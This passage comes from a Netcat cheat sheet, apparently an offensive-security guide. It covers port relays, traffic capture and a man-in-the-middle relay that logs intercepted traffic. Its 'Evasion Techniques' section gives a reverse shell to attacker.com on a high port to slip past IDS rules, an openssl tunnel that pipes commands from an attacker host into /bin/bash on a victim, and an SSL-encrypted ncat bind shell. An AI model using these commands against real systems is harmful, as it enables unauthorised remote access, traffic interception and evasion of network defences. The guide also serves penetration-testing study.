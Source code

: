 ```bash
# Forward traffic from local port 8080 to remote port 80
mkfifo /tmp/pipe
nc -nlvp 8080 < /tmp/pipe | nc target.com 80 > /tmp/pipe
```

### Network Monitoring
Use Netcat to capture and monitor network traffic:

```bash
# Capture HTTP traffic
nc -l -p 80 > captured_traffic.txt
```

### Man-in-the-Middle Setup
Create a basic MITM setup:

```bash
# Create named pipes
mkfifo /tmp/pipe1 /tmp/pipe2

# Start the relay
nc -l -p 8080 < /tmp/pipe1 | tee capture.txt | nc target.com 80 > /tmp/pipe1

# Now redirect client traffic to your local port 8080
```

## Evasion Techniques

### Using Non-Standard Ports
Avoid common IDS/IPS rules by using non-standard ports:

```bash
# Use high-numbered port for reverse shell
nc -nv attacker.com 65432 -e /bin/bash
```

### Creating Encrypted Tunnels
Combine Netcat with encryption tools:

```bash
# On attacker (create SSL listener)
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444 | nc -l -p 4445

# On victim (connect back through encrypted tunnel)
nc -nv 192.168.1.100 4445 | openssl s_client -quiet -connect 192.168.1.100:4444 | /bin/bash
```

## Netcat Alternatives
Modern implementations with additional features:

- **Ncat**: Enhanced version from Nmap project with SSL, proxy support
  ```bash
  # SSL encrypted bind shell
  ncat --ssl -nlvp 4444 -e /bin/bash
  ```
